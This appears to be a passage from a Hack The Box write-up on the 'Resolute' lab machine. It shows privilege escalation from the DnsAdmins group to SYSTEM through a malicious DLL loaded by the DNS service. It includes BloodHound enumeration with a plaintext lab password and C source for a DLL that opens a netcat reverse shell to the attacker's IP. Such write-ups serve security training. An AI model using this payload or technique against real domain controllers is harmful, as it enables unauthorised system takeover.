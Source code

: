 ## Privesc using the DNS service

Our `ryan` user is part of the `Contractors` domain group.

```
*Evil-WinRM* PS C:\Users\ryan\Documents> net user ryan
User name                    ryan
Full Name                    Ryan Bertrand
[...]
Local Group Memberships      
Global Group memberships     *Domain Users         *Contractors          
The command completed successfully.
```

I used the python BloodHound ingestor to dump the info in BloodHound and see if I could pick up anything interesting to exploit.

```
root@beholder:~/opt/BloodHound.py# ./bloodhound.py -c all -u ryan -p Serv3r4Admin4cc123! --dns-tcp -d megabank.local -dc megabank.local -gc megabank.local -ns 10.10.10.169
INFO: Found AD domain: megabank.local
INFO: Connecting to LDAP server: megabank.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: megabank.local
INFO: Found 27 users
INFO: Found 50 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MS02.megabank.local
INFO: Querying computer: Resolute.megabank.local
INFO: Done in 00M 03S
```

![](/assets/images/htb-writeup-resolute/bloodhound.png)

As I suspected, user `ryan` is a member of two additional groups: `Remote Management Users` and `DnsAdmin`. I remember reading about a potential privilege escalation vector for users with `DnsAdmin` group access.

Spotless has a great [blog post](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) that covers this priv esc. In a nutshell, we can ask the machine to load an arbitrary DLL file when the service starts so that gives us RCE as SYSTEM. Because we're in the `DnsAdmins` group, we can re-configure the service and we have the required privileges to restart it.

Here's a quick DLL file that just calls netcat to get a reverse shell.

```c
#include "stdafx.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		system("c:\\windows\\system32\\spool\\drivers\\color\\nc.exe -e cmd.exe 10.10.14.51 5555");
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
```